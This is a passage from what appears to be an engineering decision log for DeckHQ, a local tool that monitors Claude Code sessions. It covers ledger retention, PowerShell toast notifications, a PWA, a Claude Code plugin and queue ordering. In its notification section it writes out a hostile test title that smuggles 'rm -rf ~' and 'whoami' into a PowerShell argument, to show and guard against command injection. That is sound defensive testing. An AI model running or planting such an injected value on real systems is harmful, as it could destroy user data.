confirmation; the mitigation is that it is derived from nothing — not the machine name, not a MAC,
not the user — so it is a join key for two of the user's own ledgers and not a fingerprint.

**What the signature proves, and what it does not.** `deckhq ledger export --signed` writes the day
file byte-for-byte plus a `.sig` document carrying an Ed25519 signature and **the public half of
the key**, so verification needs the two files and nothing else. That proves integrity and one
consistent signer. It does not prove identity — anybody can generate a key — so `verify` prints the
key fingerprint and says so in as many words, and a BYOS team floor pins the fingerprint per
machine. The private key is written with mode `0600`; **on Windows that mode is not enforced**, and
the file's protection is whatever the user's profile directory provides. The test asserts the mode
only on POSIX rather than asserting a fiction, and the command says so on the run that generates
the key.

**Retention.** `settings.ledgerRetentionDays`, default 90, clamped to 1–3650 in the store and
rejected rather than silently defaulted at the route. Pruned once at daemon start and nowhere else:
a prune on a timer would be a background process deleting files in the user's home for the life of
the daemon, and one pass per start is enough for a 90-day window. `prune` touches only
`YYYY-MM-DD.jsonl` and its `.sig` sidecar — a test drops a `ledger-key.pem` and a `notes.txt` into
the directory and asserts both survive.

**`deckhq stats` does not look for a daemon**, and that is a departure from every other read command
in this CLI (§92, `src/cli/source.mjs`). Those prefer a daemon because it holds liveness and the
stall clock, which the files do not. Stats hold neither: they are a replay of a directory of text
files that both processes read identically, so a port scan and an HTTP client would add ~90 ms and
nothing else. Both surfaces call the same `computeStats`, and a test runs the route and the command
over one directory and diffs the numbers, so they cannot drift into two definitions of a median.

**Two numbers rather than one for "over 24h".** `docs/01-PRODUCT.md` §6's first criterion is
"sessions sitting in `for_review` longer than 24h: 0, sustained", which is a question about *now*.
That is `over24h`. `everOver24h` is the same question asked of history, and it is what tells you
whether it used to happen — a product that has just reached zero and one that has always been at
zero are not the same product, and one number cannot say which you are.

**The measured cost, reference machine, 4 September.** A 10.7-minute run of the real daemon
against the machine's real transcripts, into a scratch `DECKHQ_STATE_DIR`: **190 records, 47,039
bytes — 46 KB for the day, 248 bytes a record.** The shape is one cold-start burst and then almost
nothing. 78 of those records are the per-day `first_seen` carry-over, one per session on the
machine; 86 are the first token totals; 20 are the desktop app's archive flags being reconciled
against a fresh seed on a first run; and **6 are actual state transitions in ten minutes.** A day
of ordinary use is therefore roughly the burst plus a few hundred bytes an hour, and 90 days of
retention on this machine is single-digit megabytes. Nothing about the daemon changed measurably:
the poll is unchanged, and `record()` is an array push.

That run also produced the first real numbers this product has ever had about itself: 23 sessions
in `for_review`, **13 of them waiting more than 24 hours**, and a longest wait of 2 d 12 h standing
since 1 September. §6's first criterion is not met on the reference machine, which is precisely
what a measurement is for.

**Acceptance.** 52 tests, 714 to 766. `npm run goldens:check` is unaffected and was run: 4 of 4
match, 0 px over tolerance — nothing in this package touches `public/`.
## 101. WP-16 — the notification the closed tab cannot send, and the PowerShell flag that had to change

WP-16's premise is in `docs/plan/08-PLAN-V2-100X.md` §1.2: *the product's job is to let you stop
watching*. Until this package every notification DeckHQ could raise came from `public/app.js`
through the browser's `Notification`, which needs the page alive — so the one moment the product
most needed to reach you, with every window closed and the daemon still running, was the one it
could not. §14's added refusal ("no feature that requires the browser tab to be open to be
useful") is the same sentence written as a rule.

What landed: a PWA the floor can be installed as, the Badging API on the dock icon, and the
daemon's own OS notifications behind `--notify` / `settings.osNotify`.

### 1. `powershell -Command` cannot take arguments, and the brief assumed it could

The package brief, and `06-ENGINEERING-WORKPLAN.md` WP-16, both say "PowerShell toast" and the
handover adds the rule this project has held since §28: **argv arrays, never shell strings with
interpolated user data.** The natural reading is
`powershell -NoProfile -Command <fixed script> <title> <body>`, with the script reading `$args`.

Measured on the reference machine, that form does not exist. `powershell.exe -Command` treats a
string value as the last parameter and **appends everything after it to the command text**. With
a title of `Ada "; & $( rm -rf ) \`whoami\` %PATH%`:

```
CMD  powershell -NoProfile -NonInteractive -Command "ARGS=[" + ($args -join "|") + "]" Ada "; & $( rm -rf ) `whoami` %PATH% orbital-api
     → At line:1 char:36  Unexpected token 'Ada' in expression or statement.
       The string is missing the terminator: ".
```

That is not a quoting bug to be fixed with better escaping. The title *became script source* — the
exact failure §28 exists to make impossible. The same value through `-File`:

```
FILE powershell -NoProfile -NonInteractive -ExecutionPolicy Bypass -File notify.ps1 -Title <hostile> -Body orbital-api
     → TITLE=[Ada "; & $( rm -rf ) `whoami` %PATH%]
       BODY=[orbital-api]
```

**Deviation 1: the Windows path is `-File`, not `-Command`.** The fixed script is
`src/core/notify.ps1`, it ships in the package (`files` already includes `src`), and it declares
`param([string]$Title, [string]$Body)`. `-ExecutionPolicy Bypass` is passed for that one
invocation because `-File` is subject to execution policy and `-Command` was not; it changes no
machine policy, and a machine whose Group Policy refuses it anyway degrades to the badge in
silence, which is the documented behaviour for every notifier failure.

Inside the script the two values never touch XML text either: the toast is built through
`CreateTextNode($Title)` on the template DOM, so a title containing `<b>` is characters, not
markup. `test/unit/notify.test.mjs` asserts the script contains no `$Title`/`$Body` inside a
double-quoted PowerShell string and no `Invoke-Expression`.

### 2. The one real run, on Windows

The whole chain — snapshot diff, coalescing window, composed copy, argv array, `spawn`,
`ToastNotificationManager` — was run once for real on the reference machine (Windows 11, Windows
PowerShell 5.1), with the hostile label above as the agent's display name:

```
argv: ["powershell","-NoProfile","-NonInteractive","-ExecutionPolicy","Bypass","-File",
       "…/src/core/notify.ps1","-Title","DeckHQ",
       "-Body","Ada\"; & $(rm -rf ~) `whoami` | notify-s… raised a hand in orbital-api"]
exit code: 0   stdout: ""   stderr: ""
```

Corroboration beyond the exit code: after the run,
`HKCU:\SOFTWARE\Microsoft\Windows\CurrentVersion\Notifications\Settings` contains a new
`{1AC14E77-02E7-4E5D-B744-2EB1AE5198B7}\WindowsPowerShell\v1.0\powershell.exe` key — Windows
registers an AUMID there when it accepts a toast from it. The notification platform took it.

Two honest limits on that. The toast presents itself as Windows PowerShell, because a node process
has no AppUserModelID of its own and borrowing PowerShell's shortcut identity is the only
dependency-free way to have one; giving DeckHQ its own identity means a shortcut in the Start Menu,
which is an installer's job, not a daemon's. And the machine's notification database was not
updated, so the toast was shown rather than persisted into the Action Center. Both are cosmetic
and neither is worth a dependency.

**macOS and Linux have not been run.** `osascript` and `notify-send` are argv-asserted in the test
suite and executed nowhere — the same standing gap as §9 and §91. Per `08` §1.1 rule 11 that makes
them hypotheses. The README claims nothing about them that a reader could be surprised by.

### 3. What "died unexpectedly" is allowed to mean

`04-ENGAGEMENT-AND-GAMIFICATION.md` §6 budgets exactly two interruptions: a raised hand, and *a
session that dies unexpectedly while working*. The second needs a definition the state machine can
actually supply.

`Registry` now keeps one observed, transient boolean per session, `closedCleanly`: `Stop` and
`SessionEnd` set it, every other hook event clears it, and `registry.wasClosedCleanly(id)` reads
it. It is deliberately **not** in the snapshot — it answers one question for the notifier and is
not a fact about an agent that any surface draws. It touches nothing user-owned; the invariant is
untouched, and `state-machine.test.mjs` is unchanged.

A death interrupts when a session was `working` or `stalled` and live, is now `ended` and not
live, and never said goodbye. Three consequences, all deliberate:

1. A session that dies after `Stop` is `for_review`, which survives death by design (`endedOr`),
   so it never reaches this path — it is a badge, which is what §6 asks for.
2. A `SessionEnd` is the user closing their own session. Their action. Nothing interrupts them
   about it.
3. **Deviation 2: on a machine with no hooks installed, `closedCleanly` is always false**, and the
   rule reduces to the only signal the degraded path has — a live session whose transcript's last
   turn had not ended is now not live (`08` §4.2's `turnEnded`). That is a real signal, not a
   guess: a finished turn would have moved the session to `for_review` before the process went.
   But it inherits the degraded path's latency, including the 60 s live-roster cache (§77), so a
   session that exits within that window can be reported as having stopped mid-task when it
   finished normally a moment earlier. The right fix is hooks, which the floor already asks for on
   its own banner. Named here rather than papered over.

A session dying out of `needs_input` is not a second interruption: its hand is already up, it
already produced one, and `needsInputSince` keeps it in the needs-you count regardless.

### 4. The copy, and the two states that get nothing

`for_review` and `stalled` are badge-only. That is asserted rather than assumed —
`NOTIFYING_ENTRY` has exactly one key and a test fails if either state is added — because they are
the two most likely to be added back by someone who thinks more notification is more product.

The body copy carries no second-person fault. "Ada raised a hand in orbital-api", "Bram stopped
mid-task in orbital-api", "3 sessions raised a hand"; never "you left", never "you forgot".
A test greps every line the composer can produce for `you`, `your`, `forgot`, `left`, `neglect`,
`ignored`, `abandon`. This is `04` §1's rule — the agents are the characters, the manager is never
scored — applied to the one surface that speaks to the user when they are not looking.

Coalescing is the client's window unchanged: one notification per 10 s, several sessions inside it
become "3 sessions raised a hand".

### 5. `osNotify` ships off, and has no row in the settings sheet

**Deviation 3, and the open decision.** `settings.osNotify` defaults to `false`, and it is exempt
from `settings-keys.test.mjs`'s "every setting has a control" rule the way `editor` and `terminal`
are (§94.3).

`notifications` — the switch that already existed — governs a permission the *browser* asked for
and the user granted in a browser dialog. `osNotify` governs a background process on this machine
raising toasts with no window open and nothing having asked. Those are not the same consent, and
defaulting the second one on because the first is on would be deciding for the owner. So:
`deckhq --notify` turns it on for one run and writes nothing; a POST to `/api/settings` turns it
on for good.

**The owner decides**: whether `osNotify` should default on once WP-19 makes a raised hand
answerable from the panel (an interruption you can discharge in one keystroke is worth much more
than one that sends you to a terminal), and what the settings row says when it gets one. Until
then the flag is the interface.

The master `notifications: false` turns the daemon off along with the browser, so a user who has
said "no notifications" is not surprised by a process that never asked.

### 6. The PWA, and what a service worker is not allowed to be here

`public/manifest.webmanifest`, `public/sw.js`, and two generated icons.

The service worker **caches nothing and intercepts nothing**. Its `fetch` listener never calls
`respondWith`, so every request is issued exactly as the browser would have issued it. Two
reasons, both load-bearing: a cached floor is a floor that lies about who is waiting, which is the
one thing this product cannot do; and `/api/events` is an SSE stream, which passing through a
worker's response pipeline is a well-known way to break. The worker exists so the app is
installable, so the dock icon exists, so `navigator.setAppBadge(needsYou)` has somewhere to put
the count with every window closed. `test/unit/pwa.test.mjs` fails on `caches`, on `respondWith`,
and on any host in either file that is not loopback — `08` §1.1 rule 2 is not something a script
that runs with the page closed gets an exemption from.

The icons are generated, not drawn: `scripts/make-pwa-icons.mjs` renders a floor plate and four
desks, one of them `--accent` red, straight from `public/style.css`'s palette through
`scripts/lib/png.mjs` over `node:zlib`. `--check` re-renders and compares byte for byte, so the
committed PNGs are reproducible and the mark cannot drift from the chrome by hand-editing. No
binary asset in this repository is one nobody can regenerate.

`src/http/server.mjs` gained `.webmanifest` as `application/manifest+json`, and the CSP now states
`worker-src 'self'` and `manifest-src 'self'` rather than leaving both to fall through
`default-src` — a directive that matters is worth reading in the header.

**Deviation 4: installation itself is unverified.** The manifest parses, both icons resolve at the
sizes they claim, and `navigator.setAppBadge(3)` resolves — all checked against a live daemon on
`127.0.0.1:4571`. Service worker registration could not be exercised: the browsing context
available here refuses `navigator.serviceWorker.register` for every script, including one that
does not exist (a missing file returns the same "unknown error occurred when fetching the script"
as a real one), so the failure is the environment and not the file. Whether Chrome offers
**Install** on the real floor, and whether the installed icon takes a badge, is unproven. Per
rule 11 it stays a hypothesis until someone runs it, and nothing in the README promises it.

### 7. Acceptance

`test/unit/notify.test.mjs` (38 tests) and `test/unit/pwa.test.mjs` (11), none of which start a
process:

- the interruption budget as a table: `needs_input` entry fires once and only on entry;
  `for_review` and `stalled` fire nothing; a benched or let-go session fires nothing; a session
  first seen with its hand already up is not announced, so a daemon restart does not replay the
  backlog;
- death detection over all four shapes — vanished while working, vanished while stalled, closed
  cleanly, and dying out of `for_review` — plus the registry's own `wasClosedCleanly` walked
  through `SessionStart → PreToolUse → Stop → UserPromptSubmit → SessionEnd`;
- coalescing on an injected clock (§80's discipline): three hands in one window is **one**
  notification reading "3 sessions raised a hand"; a fourth inside the window waits for it;
- `SECURITY:` the exact argv array for each of the three platforms, asserted whole;
- `SECURITY:` a title containing `"; & $(` reaches every notifier as exactly one argument that
  **equals** it, and no argument on any platform is a shell or a `-c`;
- `SECURITY:` the notifier's own source, comments stripped, contains no `shell: true` and no
  `exec(`, and spawns with a named argv array; the PowerShell script interpolates neither value
  into a double-quoted string;
- the copy tests above, and every switch: off by default, `--notify` on without persisting,
  master switch off wins, and turning it on mid-run announces nothing that happened while it was
  off;
- the PWA files: no non-loopback host in either, no cache, no `respondWith`, both icons present at
  the sizes the manifest claims, the `.webmanifest` MIME type, the two new CSP directives, and the
  client's WP-16 block still being one delimited region.

838 tests to 887, lint and format clean.

This package was built on a branch taken before WP-50, WP-19, WP-54 and the Codex follow-up
landed, and merged onto them at the end — which is why it is §101 and not §96, the number the
brief named. Four files conflicted and all four resolutions are additive: `src/daemon.mjs` (the
notifier is constructed beside `Permissions`, and `close()` releases held permission requests
first — a session blocked on an answer outranks a toast); `test/unit/settings-keys.test.mjs` (the
exempt set now has six entries, not five, and says why for each); `CHANGELOG.md` (both entries
kept). `src/core/state-machine.mjs` merged clean beside WP-19's pending-permission map, which
`closedCleanly` neither reads nor touches.

`npm run goldens:check` is unaffected, and that is measured rather than reasoned: all four
populations match, **0 pixels moved at all** — not "inside tolerance", zero — in 33.4 s. It could
hardly be otherwise, since the client's whole footprint is a `<link rel="manifest">`, one
`setAppBadge` call and a registration, none of which paints anything; but §1.1 rule 11 says a
claim is a hypothesis until it is run on a machine, and this one is cheap to run. The live floor
was also screenshotted against a running daemon after the change (`08` §1.1 rule 10).
## 102. WP-37 — the Claude Code plugin: the spike's answers, and the seven decisions the build made from them

`08-PLAN-V2-100X.md` §3.0, B2 and §9 WP-37. **Go.** Everything the plan assumed
about plugins is true on the build in front of us; the one question the plan
left open — how a plugin's hook finds the daemon without a hard-coded port —
has a clean answer that did not exist before this package; and the whole thing
installs, validates and delivers events on a throwaway config directory.

Measured against **Claude Code 2.1.231 native, win32-arm64, commit
`bbff368ec698`**, and the plugin, marketplace and skills documentation as it
stood on 4 September, in a disposable `CLAUDE_CONFIG_DIR` under the scratch
directory. `~/.claude` was never written to at any point.

### 102.1 What was verified by experiment, and what was not

**Verified by running it:**

- `claude plugin validate ./plugin --strict` and `claude plugin validate .
  --strict` both pass, and the validation is real rather than a manifest read:
  a copy with a bogus event key is rejected with `hooks.NotAnEvent: Invalid key
  in record`, and one with `"async": "yes"` with
  `hooks.SessionStart.0.hooks.0.async: Invalid input: expected boolean,
  received string`. So **`async` is a typed field in the shipped hook schema**,
  the plan's assumption in §3.0 holds, and the extra `"_deckhq": true` tag on
  every entry survives validation exactly as §86.1 found for settings files.
- `claude plugin marketplace add <repo path>` registers the repository as a
  `directory` source in the config's `settings.json`, and `claude plugin
  install deckhq@deckhq` installs it. `claude plugin details deckhq` then
  reports the full inventory: **Skills (2) deck, waiting; Hooks (8)
  SessionStart, UserPromptSubmit, Notification, Stop, SubagentStop, SessionEnd,
  PreToolUse, PostToolUse; MCP servers (1) deckhq**, at ~48 tokens of always-on
  context.
- **The install is a copy.** `~/.claude/plugins/cache/deckhq/deckhq/1.2.0/`
  holds eleven files and nothing else — the eleven in `plugin/`. Nothing
  outside that directory comes with it. This is the most consequential
  measurement in the spike; see decision 1.
- The hook command, run out of the installed cache copy with a real
  `SessionStart` payload on stdin, found a daemon on **port 4489** — outside
  the ten-port walk, discoverable only through `~/.deckhq/daemon.json` — and
  delivered the event: `/api/hooks` went from `eventsSeen 0` to `eventsSeen 1`.
- The MCP server, driven over stdio with hand-written JSON-RPC, answered
  `initialize`, `tools/list` and `tools/call deckhq_waiting`, the last with the
  22 sessions actually waiting on the reference machine.
- `SessionStart --start` with no daemon running spawned one, waited for it to
  bind, and reported `{"port":4317,"started":true,"reason":"started"}`; run
  again it reported `{"port":4317,"started":false,"reason":"running"}` and
  spawned nothing.
- `deckhq doctor` on that machine prints `hooks   installed as a plugin, 0
  events, none yet this run`, and the floor's `/api/hooks` reports
  `installed=true viaPlugin=true staleAtPort=null` — the "exact state, no
  banner" half of the acceptance criterion.
- **Uninstall removes only what the plugin owns.** With a hand-written
  `statusLine`, a hand-written `Stop` hook and a `model` setting placed in the
  throwaway config first, `claude plugin uninstall deckhq` emptied
  `enabledPlugins` and `installed_plugins.json`, marked the cache directory
  `.orphaned_at`, and left all three of those untouched. The install had added
  exactly one key: `enabledPlugins["deckhq@deckhq"] = true`.

**Not verified, because it needs inference.** The CLI's stored OAuth token is
expired (§86.1), so no session could be started. That leaves four things
**unproven on a real machine**, and they must not appear anywhere as facts
until they are:

1. that Claude Code actually *fires* the plugin's hooks in a live session — the
   registration is proved, the firing is not;
2. that `/deckhq:deck` and `/deckhq:waiting` run their injected `` !`…` ``
   commands and render (the two skills are proved to register by name);
3. that `${CLAUDE_PLUGIN_ROOT}` is substituted inside a command's markdown body
   as the reference documents — the substitution inside `hooks.json` and
   `.mcp.json` is in the same documented table and is not verified either;
4. that the MCP server is reachable as
   `mcp__plugin_deckhq_deckhq__deckhq_waiting` from a model's tool list.

By `08` §1.1 rule 11 those are hypotheses. The README section this package adds
describes the install and the commands, which is unavoidable for a feature
whose whole point is that it installs — but it claims no measured behaviour,
and nothing about the plugin goes in a launch tweet until a signed-in machine
has run it end to end.

**Read from documentation only:** the marketplace `source` forms other than a
relative path, `defaultEnabled`, `userConfig`, `${CLAUDE_PLUGIN_DATA}`, and the
monitor `when` trigger.

### 102.2 Decision 1 — the plugin is self-contained, and a test enforces it

The install copies `plugin/` and nothing else. An `import
'../src/cli/source.mjs'` would resolve on the author's machine, where the
plugin directory sits next to `src/`, and on **no** user's, where it sits in a
version-stamped cache directory with ten sibling files. That is a bug that
passes every test the author can run and fails for everybody else, so it is
closed structurally: `test/unit/plugin-manifest.test.mjs` walks every `.mjs`
under `plugin/`, parses every import specifier, and fails any that is a bare
package or resolves outside `plugin/`. The plugin also ships no `package.json`,
so nothing in it can acquire a dependency later either.

The cost is `plugin/lib/deckhq.mjs`, which restates about forty lines of `src/`:
the three activity states that mean "this is on you", the loopback probe, and
the one-line flattener. Everything else it asks the daemon over `/api/state`,
so the plugin computes no state, keeps no cache, and holds no second opinion
about what `for_review` means.

### 102.3 Decision 2 — the daemon publishes its port, and the hook reads it

§86.6 left this open and recommended baking the port in. A plugin cannot: there
is no install-time moment when a daemon is running to be asked, and the same
copied `hooks.json` has to work on a machine that installs DeckHQ tomorrow. So
the fallback §86.6 named as option 2 is now built, and it is the primary route.

`startDaemon` writes `~/.deckhq/daemon.json` — `{port, url, pid, startedAt}` —
after the listener binds, and removes it on a clean close. Three properties, in
`src/core/daemon-file.mjs`:

- **It is not `state.json`.** Nothing about a listening socket is user-owned,
  and the file the acknowledgements live in keeps exactly one writer. §93
  refused a second writer against it for the CLI; the same rule applies here.
- **A stale record is a hint, not an answer.** A killed daemon leaves the file
  behind, so every reader probes the port before believing it. `pid` is
  recorded so a reader can tell a fresh record from one left by a reboot, and a
  daemon shutting down will not delete a record another daemon wrote — a
  restart writes the new one before the old one finishes closing its sockets,
  and an unconditional unlink there would leave a live daemon nothing can find.
- **It never fails a start.** Every function swallows its errors; a read-only
  home directory costs the plugin its shortcut and nothing else.

An embedder that passes `stateFile` gets the record beside that file rather
than in the user's home directory. Four hundred tests start daemons, and none
of them may overwrite the record the real one on this machine wrote.

The hook's candidate list is then, in order: an explicit port, `DECKHQ_PORT`,
the published port, **the port any settings-file hooks already name**, then the
ten-port walk. The fourth entry earns its place: on a machine that adopted 4400
(§83) and has not restarted since this build, the settings file is the only
record of where the daemon is, and without it a `SessionStart` hook would try
to start a second daemon beside a healthy one — the exact failure §83 exists to
prevent. Reading a runtime's own configuration would belong in an adapter if
this code were inside `src/` (`02-ARCHITECTURE.md` §2); it is not, it is a
Claude Code plugin running inside Claude Code, and it cannot import from a
repository that may not be on the machine.

`deckhq doctor` reads the published port too, for the same reason: a daemon the
plugin started outside the walk would otherwise be invisible to the one command
whose job is to find it.

**The hook's find budget is 1500 ms, not 400.** On the machine with no daemon
this costs nothing measurable — every candidate refuses the TCP connect
immediately and the HTTP client is never loaded. On the machine that has one it
has to cover the ~88 ms Node spends standing `fetch` up in a cold process plus
the round trip; 400 ms was tried and dropped events on a loaded Windows box.
The ceiling is spent in full only by a stranger holding a port open silently,
and `PreToolUse`/`PostToolUse` — the two highest-frequency events — are declared
`async` so they cannot block a session even then.

### 102.4 Decision 3 — an async `SessionStart` hook, not a monitor

The plan asked for a reasoned choice. A monitor is a **session-lifetime
background process whose stdout lines are delivered to Claude as
notifications**. Three things make it the wrong shape here, and none of them is
about difficulty:

1. **Lifetime.** The daemon must outlive every session and be shared by all of
   them — that is what "it remembers what is waiting on you after you have
   closed the tab" means. A monitor dies with its session and is restarted per
   session, which is either N daemons or a supervisor that immediately exits.
2. **It writes into the model's context.** Every line a monitor prints becomes
   a notification the model reads and pays for. DeckHQ's countermeasure to its
   own fatal risk (`08` §1.2) is that the product lets you *stop* watching;
   piping the floor into a language model's context is the most expensive
   possible way to watch it.
3. **It is experimental.** `experimental.monitors` sits under a key named
   `experimental`, and the front door of the distribution strategy should not.

The async hook has none of those problems: `async: true` means Claude Code does
not wait, so the fifteen seconds a cold start can take are invisible; the
daemon is spawned `detached` with `stdio: 'ignore'` and `unref`'d, so it
outlives the session that started it; and `SessionStart` fires on resume as
well as on start, which makes the arrangement self-healing after a daemon is
killed.

**Exactly one daemon** is held by three things in series, because ten terminals
opened at once fire ten hooks in the same second: a probe first, then an
exclusive `wx` lock file at `~/.deckhq/daemon.start.lock`, then a second probe
inside the lock. A hook that cannot take the lock waits for the other one's
daemon rather than racing it — two daemons is the failure, a floor that arrives
a second late is not. A lock older than sixty seconds is broken open, because a
hook process killed mid-start would otherwise hold it forever.

**Argv arrays, never a shell string.** `resolveLauncher` looks for
`DECKHQ_BIN`, then for `<PATH dir>/node_modules/deckhq/bin/deckhq.mjs` — npm's
own entry point, beside the shim — and only then for the shim itself.
Preferring the entry point means `node <file>` on every platform and skips
`cmd.exe` entirely; when only a `.cmd` shim exists it is passed as an
**argument** to `cmd.exe` (`/d /s /c <file>`), which is the supported route
since Node 18.20.2 refused to spawn batch files directly. Nothing from a hook
payload reaches a child process at all.

### 102.5 Decision 4 — `plugin/` stays out of the npm tarball

The plugin's distribution channel is the repository, which is what `claude
plugin marketplace add` clones and what a GitHub-sourced marketplace entry
fetches. Shipping a second copy inside every `npx deckhq` download would be
bytes nobody runs. So `package.json`'s `files` whitelist is unchanged and
neither `plugin` nor `.claude-plugin` is in it — asserted by a test, so the
decision cannot drift by accident. The daemon does not serve the plugin
directory either: there is no route that would, and adding one would mean the
floor hosting an installer for itself.

### 102.6 Decision 5 — a plugin install reads as "hooks installed"

This is the acceptance criterion — *"an exact-state floor with no other
command"* — and without it the package fails it while working perfectly.
`installed()` reads `settings.json`; the plugin puts nothing there; so a
machine where every hook event is arriving would show the reinstall banner, and
`_hooksInstalled()` in the registry would keep running the inference path
beside exact events.

So the adapter gained `pluginInstalled()`, which reads `enabledPlugins` in
Claude Code's settings for a truthy key whose plugin half is `deckhq`.
`enabledPlugins` rather than `plugins/installed_plugins.json` on purpose: it is
the key `plugin install` writes and `plugin disable` flips, so an installed but
disabled plugin — whose hooks do not run — correctly reads as not installed.
Verified in both directions on the throwaway config, including that an
uninstall's orphaned cache directory does not read as installed.

`/api/hooks` reports `installed: settings || plugin` plus a new `viaPlugin`
field, and **suppresses `staleAtPort` when the plugin is present**: the
plugin's hook command discovers the port at run time, so it cannot drift, and a
stale settings-file entry beside a working plugin is not a fault worth a
banner. `doctor` says `installed as a plugin` when there is no port to report,
which is the difference between a row that explains the missing port and a row
that looks half-read. `public/` was not touched.

### 102.7 Decision 6 — the MCP server is read-only, and hand-written

One tool, `deckhq_waiting`, annotated `readOnlyHint` and `openWorldHint:
false`. **There is no `deckhq_ack` and there will not be one from this server.**
Acknowledging is the user discharging a debt; a model that can clear the
needs-you count can clear it by accident, which is precisely the shape
`01-PRODUCT.md` §2 forbids. An `INVARIANT:` test asserts the server declares
exactly one tool and that its source contains no POST and no write endpoint.

It also starts nothing. A tool call is the model's decision, not the user's,
and spawning a daemon on one is a side effect nobody asked for; `SessionStart`
is where the daemon gets started, by the user opening a session.

No SDK, per `08` §1.1 rule 3. The protocol surface a one-tool read-only server
needs is `initialize`, `tools/list`, `tools/call` and `ping` over
newline-delimited JSON — about two hundred lines including the comments.
Requests are answered in order rather than concurrently: one tool, a two-second
ceiling, and serialising removes every interleaving question a client could
ask. `initialize` echoes a protocol version the client asked for when it is one
we can speak, rather than telling a client on an older revision to give up over
a server whose whole surface is one read-only list.

The text it returns is deliberately **not** the ANSI table `deckhq waiting`
prints (WP-42): this output is read by a model as often as by a person, and
escape codes are noise in a transcript. Every transcript line is flattened to
one line of printable text first — the §89 decision 6 rule, applied to a second
surface — and a test asserts the queue never scores the human (`08` §1.1
rule 6).

### 102.8 Decision 7 — the slash commands run a bundled script, not a prompt

`/deckhq:deck` and `/deckhq:waiting` are markdown skills whose body is a single
injected `` !`node "${CLAUDE_PLUGIN_ROOT}/scripts/…"` `` command, with
`disable-model-invocation: true` and an `allowed-tools` rule naming that exact
command. Three consequences, all wanted: the output is deterministic and
identical to what the CLI would print rather than something a model composed;
the model's whole job is to relay it, which is why both bodies end with an
instruction not to re-rank, advise or editorialise; and neither command can
fire on its own, because `/deck` opens a browser window and Claude does not get
to decide when that happens.

Note the namespace. They are `/deckhq:deck` and `/deckhq:waiting`, not `/deck`
and `/waiting`. Plugin skills are always namespaced by the plugin name, with no
way to opt out short of renaming the plugin, so the plan's `/deck` and
`/waiting` are **not** what a user types and the README says the real names.

### 102.9 Accepted limits

- **`node` must be on the PATH Claude Code runs hooks with.** Claude Code 2.x
  is a native binary and does not supply one. If `node` is missing the hooks
  silently do nothing — the same failure the hooks screen already describes in
  words for the settings-file route, and the reason that screen reports events
  seen rather than only "installed".
- **`deckhq` must be findable for `SessionStart` to start anything.** `npx`
  leaves no binary behind, and the plugin will not run `npx` itself: that is a
  network fetch, and this product adds no egress, ever. A machine with the
  plugin and no DeckHQ gets a plugin that delivers events to whatever daemon is
  running and starts none — and `/deckhq:deck` says so in a sentence naming
  `npm i -g deckhq`.
- **Both install routes at once means every event is delivered twice.** The
  settings-file hooks and the plugin's hooks are independent and nothing
  deduplicates them. It is not harmful — `applyHook` is idempotent for every
  event shape it handles — but it is two processes per event instead of one.
  The README says to remove the settings-file hooks from the header after
  installing the plugin. A tagged marker letting the daemon drop the duplicate
  is the obvious fix and was left out deliberately: it is a change to the hook
  payload contract, not a plugin detail.
- **`claude doctor` does not validate a plugin's hooks.** It validates hook
  blocks in settings files (§86.1). `claude plugin validate <path> --strict` is
  what validates `hooks/hooks.json`, and it is what the acceptance criterion
  was met with; the CLI's own `doctor` reported no errors with the plugin
  installed, which is the weaker but still true half.
- **The marketplace is listed under no account yet.** The repository carries
  `.claude-plugin/marketplace.json`, so `claude plugin marketplace add
  DkPanseriya/deckhq` works the day it is pushed. Submission to
  `claude-community` is a form, needs a decision about which account submits,
  and is the PM's call rather than this package's.
- **Six child processes in the suite made two latency tests flaky**, and the
  fix was to stop spawning them: `runHook` is exported and driven in-process,
  and exactly one test per file spawns the real thing. Three consecutive full
  runs pass. §80 and §87 are the standing reminders that a wall-clock
  assertion is a load test of whatever else is running.

**Acceptance.** 64 tests across four files: the daemon-file record and its
staleness and failure paths; the manifest, marketplace and hook-block shapes,
including that the plugin block covers exactly the events the settings block
covers and that no hook entry contains a port; the self-containment walk over
every import; three `SECURITY:` egress tests — every URL in every copied file
is loopback, the manifest's two metadata URLs are pinned by key, and the host
is one constant nothing can move; the hook command spawned as a real child
process posting a real payload to an OS-assigned port discoverable only through
`daemon.json`; the discovery order; eight concurrent `ensureDaemon` calls
producing exactly one spawn and releasing the lock; the launcher resolution
including the `cmd.exe` argv; and the MCP server over its real transport plus
the `INVARIANT:` no-write test. 714 tests to 778.
## 103. WP-10 — the queue strip and the deck: eight departures from `05` §3, and the two guarded tests that moved

WP-10 is accepted against four clauses in
[`06-ENGINEERING-WORKPLAN.md`](plan/06-ENGINEERING-WORKPLAN.md): `Tab` toggles floor ⇄ deck with no
reflow of the panel; `J`/`K`/`1`/`2`/`3` work identically in strip, deck and floor; the deck is a
real semantic grid a screen reader can traverse in queue order; and the oldest chip never scrolls
out of the strip. All four hold. What follows is where the implementation departed from
[`05`](plan/05-GUI-UX-SPEC.md) §3 and why.

### 103.1 The ordering is duplicated on purpose, and pinned by a test

`05` §3 wants one order across the floor's `J`/`K`, the strip, the deck and — since WP-42 —
`deckhq ls`. `src/cli/deck.mjs` already had it, in `groupRows()`. The browser cannot import it:
`src/` is never served, and shipping a Node module to the page to save twelve lines would put the
core module graph behind an HTTP route.

The alternative considered and rejected was **ordering on the server and sending the order in the
snapshot payload**. It looks like the honest fix and it is worse: it makes the client's most
keyboard-sensitive behaviour depend on a field the daemon may not have sent yet (the first paint
comes from `/api/state`, the rest from SSE), it adds a snapshot field for something the client can
compute in a microsecond from data it already has, and it leaves the CLI needing its own copy
anyway because `deckhq ls` reads `state.json` when no daemon is running.

So `queueGroups()` in `public/deck.js` is a second implementation of one rule, and
`test/unit/deck-view.test.mjs` runs **both over one fixture** and asserts the id sequences are
equal. The fixture is deliberately awkward: a stall older than everything else, two rows sharing a
timestamp to the millisecond, a benched agent, a let-go agent and a working one. If the two ever
drift, that test says so before a user notices that `deckhq waiting` and `J` disagree about what
comes next.

One thing did change in the shared rule: **ties now break on the id, in both files.** Two sessions
can share a `reviewSince` after a restart, and an order that falls through to `Array.prototype`
sort stability is an order that can differ between engines — which would mean `J` landing somewhere
different in a different browser.

### 103.2 `J` and `K` now sort stalls last on the floor too

Before this package the floor's queue was a flat sort by wait time; `05` §3.2's grouping —
`for_review` and `needs_input` above `stalled` — existed only in the deck's sketch. Applying it to
one surface and not the others would have failed "identically in strip, deck and floor" outright,
so `getNeedsYouQueue()` in `app.js` is now a call to `queueOrder()` and nothing else.

**This changes what `J` lands on** when a stall is the oldest thing on the floor: it is now last,
not first. That is the spec's intent ("a stall is not a debt in the same way"), and it is the
